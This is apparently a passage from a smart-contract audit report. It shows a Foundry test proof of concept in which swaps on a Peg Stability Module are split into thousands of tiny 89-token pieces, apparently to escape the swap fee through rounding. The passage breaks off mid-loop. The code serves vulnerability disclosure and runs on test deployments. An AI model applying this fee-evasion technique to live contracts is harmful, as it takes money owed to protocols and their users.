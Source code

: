 ```js
    address public wallet1 = makeAddr("wallet1");
    address public wallet2 = makeAddr("wallet2");

    function setUp() public {
        // Deploy EVC
        evc = new EthereumVaultConnector();

        // Deploy underlying
        underlying = new TestERC20("TestUnderlying", "TUNDERLYING", 18, false);

        // Deploy synth
        vm.prank(owner);
        synth = new ESynth(evc, "TestSynth", "TSYNTH");

        // Deploy PSM
        vm.prank(owner);
        psm = new PegStabilityModule(address(evc), address(synth), address(underlying), TO_UNDERLYING_FEE, TO_SYNTH_FEE, 1e18);
        vm.label(address(psm), "_PSM_");

        // Give PSM and wallets some underlying
        underlying.mint(address(psm), type(uint128).max / 2);
        underlying.mint(wallet1, type(uint128).max / 2);

        // Approve PSM to spend underlying
        vm.startPrank(wallet1);
        underlying.approve(address(psm), type(uint128).max - 1);
        synth.approve(address(psm), type(uint128).max - 1);
        vm.stopPrank();

        // Set PSM as minter
        vm.prank(owner);
        synth.setCapacity(address(psm), type(uint128).max);

        // Mint some synth to wallets
        vm.startPrank(owner);
        synth.setCapacity(owner, type(uint128).max);
        synth.mint(wallet1, type(uint128).max / 2);
        vm.stopPrank();
    }
    
    function test_t0x1c_EscapeFee_1() public {
        uint256 amountOut = 290_000e18;
        uint256 aIn = 0;

        vm.prank(wallet1);
        aIn = psm.swapToUnderlyingGivenOut(amountOut, wallet2);

        emit log_named_decimal_uint("aIn-1", aIn, 18);
    }
    
    function test_t0x1c_EscapeFee_2() public {
        uint256 aOut = 0;
        uint256 aIn = 0;

        uint256 fragments = uint256(290000)/89; // = 3258

        vm.startPrank(wallet1);
        for(uint256 i; i < fragments; i++) {
            aOut += 89e18;
            aIn += psm.swapToUnderlyingGivenOut(89e18, wallet2);
        }
```